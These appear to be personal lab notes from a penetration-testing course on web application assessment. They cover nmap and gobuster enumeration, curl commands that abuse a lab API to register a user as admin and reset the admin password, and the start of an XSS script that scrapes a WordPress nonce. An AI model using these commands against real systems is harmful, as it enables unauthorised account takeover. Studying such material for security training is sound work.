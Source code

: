 # Web Application Assessment Tools

- Nmap
	- sudo nmap -p80  -sV 192.168.50.20
	- sudo nmap -p80 --script=http-enum 192.168.50.20

- Wappalyzer
	- Looks at webapp's tech stack
- Gobuster
	- gobuster dir -u 192.168.50.20 -w /usr/share/wordlists/dirb/common.txt -t 5
		- -x for file type
- Burp
- Firefox Debugger
## Enumerating and Abusing APIs
- Example API name
	- /api_name/v1
- Gobuster pattern brute force
	- {GOBUSTER}/v1 > pattern
	- {GOBUSTER}/v2 >> pattern
	- gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern
- Inspect the API with curl
	- curl -i http://192.168.50.16:5002/users/v1
- Use curl to POST
	- curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
		- -d
			-  JSON data
		- -H
			- specifying Content-type to json
	- curl -d '{"password":"lab","username":"offsecadmin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/register
	- curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.50.16:5002/users/v1/register
	- curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
	- curl  \
	  'http://192.168.50.16:5002/users/v1/admin/password' \
	  -H 'Content-Type: application/json' \
	  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew' \
	  -d '{"password": "pwned"}'
- PUT method
	- curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'
  - curl -d '{"password":"pwned","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
- Send curl responses to burp
	- _--proxy 127.0.0.1:8080_
## XSS Attacks
- Javascript
	- Retreive Nonce
		- var ajaxRequest = new XMLHttpRequest();
			var requestURL = "/wp-admin/user-new.php";
			var nonceRegex = /ser" value="([^"]*?)"/g; ajaxRequest.open("GET", requestURL, false);
			ajaxRequest.send();
			var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
			var nonce = nonceMatch[1];